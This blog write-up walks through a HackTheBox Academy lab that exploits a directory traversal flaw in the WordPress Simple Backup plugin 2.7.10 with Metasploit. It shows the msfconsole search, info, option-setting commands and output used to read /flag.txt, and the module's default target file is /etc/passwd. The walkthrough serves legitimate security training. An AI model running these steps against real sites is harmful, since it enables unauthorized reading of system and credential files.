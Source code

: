 ```yaml
---
title: "Public Exploits"
draft: false
description: Search for plugin exploits
date: 2023-08-02 00:00:00+0000
categories: ["Easy", "HackTheBox", "Metasploit", "HTB", "Wordpress"]
tags: ["HackTheBox", "Metasploit", "Plugins", "HTB", "Wordpress"]
featureimage: "https://www.csoonline.com/wp-content/uploads/2025/04/3966334-0-86709600-1745285505-shutterstock_1135176134-Converted.jpg?quality=50&strip=all"
---
```


### Introduction
Welcome to yet another writeup where I cover an important tool used by hackers to exploit vulnerabilities on different systems: [Metasploit](https://www.metasploit.com/) In this challenge, part of the "Getting started" series on HackTheBox Academy, we will be delving into the realm of public exploits and uncovering the power of Metasploit.

_Disclaimer: The content presented in this article is for educational purposes only and does not endorse or encourage any form of unauthorized access or malicious activity._

### Public exploits Challenge.
The challenge instructions were simple: "Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file." The main focus of this challenge is to demonstrate the ability to identify vulnerabilities and effectively exploit them. Let's begin our journey by examining the target IP address and visiting the associated webpage.
![chall desc](/images/public-exploits/PublicExploits.jpg)

### Observations & Findings
Upon accessing the webpage, the very first thing that caught our attention was a version number and a brief description of a WordPress service. Drawing from our knowledge of how to find and exploit publicly available vulnerabilities, we swiftly launched the Metasploit console to search for an exploit relevant to this specific version.
![chall blog](/images/public-exploits/PublicExploits0.jpg)

```
──(dr0idbot㉿kali)-[~]
└─$msfconsole
- - - - - SNIP - - - - -

msf6 > search exploit wordpress 2.7.10

Matching Modules
================

   #  Name                                               Disclosure Date  Rank    Check  Description
   -  ----                                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/wp_simple_backup_file_read                   normal  No     WordPress Simple Backup File Read Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/http/wp_simple_backup_file_read                                       

msf6 > 
```
Metasploit came back with results, indicating that there is a publicly available exploit matching the version we found on the website.

Notice the command used to spin up metasploit **msfconsole** after its up and running, we run the command **search exploit wordpress 2.7.10** to see if there are any publicly available exploits for this plugin version. Sure enough, metasploit brings back results and slight description of what we are looking for matching the info on the website we had visited earlier on.

We have an option to see information about that exploit before using it, to see what they payload does. For that we use the command **info** plus the index of the exploit itself.
```
msf6 > info 0

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  DEPTH      6                yes       Traversal Depth (to reach the root fold
                                        er)
  FILEPATH   /etc/passwd      yes       The path to the file to read
  Proxies                     no        A proxy chain of format type:host:port[
                                        ,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.me
                                        tasploit.com/docs/using-metasploit/basi
                                        cs/using-metasploit.html
  RPORT      80               yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connecti
                                        ons
  TARGETURI  /                yes       The base path to the wordpress applicat
                                        ion
  THREADS    1                yes       The number of concurrent threads (max o
                                        ne per host)
  VHOST                       no        HTTP server virtual host

Description:
  This module exploits a directory traversal vulnerability in WordPress Plugin
  "Simple Backup" version 2.7.10, allowing to read arbitrary files with the
  web server privileges.
- - - - - SNIP - - - - -
```
As you can see, a bunch of information is given about this particular exploit with a number options that we need to set in order for the payload to work on our target. Next we use the command **use** plus the index of the exploit we have picked for the exploitation. After selection we set the options that are required by metasploit before executing the payload.

```
msf6 > use 0
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set FILEPATH /flag.txt
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set RHOSTS 94.237.49.11
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > set RPORT 41884

```

After obtaining information about the exploit, including the required options, we set the necessary values to ensure the payload will work against our target.
With all the options set, we verified the details and executed the payload on the target.

### Solution/Flag
Upon successful execution of the payload, the Metasploit console provided us with the following output:
```
[+] File saved in: /home/papab3ar/.msf4/loot/20230803014901_default_94.237.49.11_simplebackup.tra_422018.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
Using the command **cat**, we accessed the directory where the file was saved and retrieved the contents of the flag, thus completing the challenge.
![chall blog](/images/public-exploits/PublicExploits1.jpg)

### Conclusion
Metasploit proved to be a powerful tool during this challenge, allowing us to search for and exploit publicly available vulnerabilities effortlessly. It demonstrates the significance of staying vigilant against potential threats and the importance of secure coding practices for developers.

For a deeper understanding of Metasploit and its capabilities, you can refer to its official documentation [here](https://docs.metasploit.com/)

In conclusion, this challenge provided an excellent opportunity to apply web enumeration techniques, uncover hidden information, and identify potential vulnerabilities. As hackers, the quest for knowledge and continuous learning is paramount. Happy hacking, and never stop learning!
